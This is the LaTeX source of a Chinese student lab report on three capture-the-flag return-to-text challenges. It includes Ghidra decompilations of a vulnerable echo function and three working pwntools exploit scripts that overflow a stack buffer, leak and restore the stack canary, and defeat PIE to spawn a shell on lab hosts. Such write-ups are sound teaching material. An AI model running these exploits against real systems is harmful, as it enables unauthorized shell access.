\documentclass{article}
\usepackage{listings}
\usepackage{color}
\usepackage{amsmath}
\usepackage{graphicx}
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\lstset{frame=tb,
  language=Python,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=left,%设置行号位置none不显示行号
  %numberstyle=\tiny\courier, %设置行号大小
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  escapeinside=``,%逃逸字符(1左面的键),用于显示中文例如在代码中`中文...`
  tabsize=4,
  extendedchars=false %解决代码跨页时,章节标题,页眉等汉字不显示的问题
}

\usepackage[utf8]{inputenc}
\usepackage{float}
\date{2023/4/7}
\usepackage{ctex}
\usepackage{graphicx}
\title{Return2libc}
\author{叶梓淳 520030910302}

\begin{document}

\maketitle

\section{ret2libc1}
    首先用Ghidra分析二进制文件得到反汇编代码。选取main函数和echo函数对应代码如下:
    \begin{itemize}
        \item main函数
        \begin{lstlisting}{language=C}
undefined8 main(EVP_PKEY_CTX *param_1)

{
	init(param_1);
	echo();
	return 0;
}

        \end{lstlisting}
        \item echo函数
        \begin{lstlisting}{language=C}
undefined8 echo(void)

{
	char local_78 [112];
	
	memset(local_78,0,100);
	while (local_78[0] != 'q') {
		memset(local_78,0,100);
		puts("say something");
		read(0,local_78,0x8c);
		printf("%s",local_78);
	}
	return 0;
        \end{lstlisting}
  
         
    \end{itemize}
    可以看到,main函数的核心部分为echo函数,而echo函数检查输入第一个字符是否为'q',是则退出,否则循环。再观察到text段中还有一个secret函数,功能如下:
     \begin{lstlisting}{language=C}
void secret(void)

{
	system("/bin/sh");
	return;
}     
    	
    \end{lstlisting}
    secret函数执行的是libc库里的system函数,且参数正是我们想要的"/bin/sh",再查看程序保护措施:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.8\textwidth]{1.png}
    	\end{center}
    \end{figure}
    canary和PIE均未开启,则直接使用ret2text攻击。查看栈顶距离eip的距离如图,为0x78。
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{2.png}
    	\end{center}
    \end{figure}
    Secret函数的地址为0x00401235,则编写脚本如下:
    \begin{itemize}
    	\item 脚本1
    	\begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40003)

io.recvuntil("something")

io.send(b'q'*0x78 + p32(0x00401235))

io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
    运行结果如下,得到flag。
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{3.png}
    	\end{center}
    \end{figure}
   

\section{ret2libc2}
    用Ghidra反汇编得到echo函数的代码:
     \begin{itemize}
    	\item echo函数
    	\begin{lstlisting}{language=C}
undefined8 echo(void)

{
	long in_FS_OFFSET;
	char local_78 [104];
	long local_10;
	
	local_10 = *(long *)(in_FS_OFFSET + 0x28);
	memset(local_78,0,100);
	while (local_78[0] != 'q') {
		memset(local_78,0,100);
		puts("say something");
		read(0,local_78,0x8c);
		printf("%s",local_78);
	}
	if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
		/* WARNING: Subroutine does not return */
		__stack_chk_fail();
	}
	return 0;
}
    	\end{lstlisting}    		
    \end{itemize}
    相比上题引入了canary机制,与下图结论相符合:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.8\textwidth]{4.png}
    	\end{center}
    \end{figure}
    解决此题的想法是先用printf把local\_10的值打印出来,然后在padding的时候把local\_10的值填回去,从而改变eip执行secret函数。栈顶地址为0x7fffffffeac0,local\_10的地址由下图所得:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.8\textwidth]{5.png}
    	\end{center}
    \end{figure}
    [rbp-0x8],即0x7fffffffeb28。需要注意的是, local\_10的最低字节固定为0,意味着第一次打印到此处会停止,因此我们需要更改最后一个字节为'1',再次输入的时候把local\_10最低位更改为0即可。栈顶距离eip存放地址的字节数为0x78。最终脚本如下:
    \begin{itemize}
    	\item 脚本2
    	\begin{lstlisting}{language=Python}
from pwn import *

io = remote("10.0.0.10", 40004)

io.recvuntil("something")

io.send(b'A'*0x64 + b'ABCD1')

io.recvuntil("ABCD")

local_10 = u64(io.recv(8))

local_10 -= 49

io.send(b'q'*0x68 + p64(local_10) + b'a'*0x8 + p32(0x00401259))

io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
    运行结果如下,得到flag。
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{6.png}
    	\end{center}
    \end{figure}

\section{ret2libc3}
    此题汇编代码与ret2libc2基本一致,唯一的区别是开启了PIE保护。
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{7.png}
    	\end{center}
    \end{figure}
    即每次程序加载的基地址都会改变,但是指令间的相对距离不会改变,因此,我们可以把原来跳转的main函数的指令的地址打印出来,再通过相对距离计算出secret函数的地址。首先调试程序,原跳转指令的地址:
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{8.png}
    	\end{center}
    \end{figure}
    即0x555555555346,共6字节,且不论如何变化均为6字节。再在汇编代码中找到main函数中指令的地址为0x00101346, secret函数指令的地址为0x0010126c,于是我们可以写下此段脚本:
    \begin{itemize}
    	\item 脚本3
    	\begin{lstlisting}{language=Python}
from pwn import *
io = remote("10.0.0.10", 40005)
io.recvuntil("something")
io.send(b'A'*0x64 + b'ABCD1')
io.recvuntil("ABCD")
local_10 = u64(io.recv(8))
io.send(b'a'*0x68 + p64(local_10) + b'b'*0x8)
io.recvuntil("bbbbbbbb")
ori_eip = io.recv(6)
ori_eip = int.from_bytes(ori_eip, byteorder='little', signed=False)
to_eip = ori_eip - int(0x00101346) + int(0x0010126c)
to_eip = to_eip.to_bytes(6, byteorder='little', signed=False)
local_10 -= 49
io.send(b'q'*0x68 + p64(local_10) + b'b'*0x8 + to_eip)
io.interactive()
    		
    	\end{lstlisting}
    \end{itemize}
    运行结果如下,得到flag。
    \begin{figure}[H]
    	\begin{center}
    		
\includegraphics[width=0.9\textwidth]{9.png}
    	\end{center}
    \end{figure}
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
   
 

\end{document}
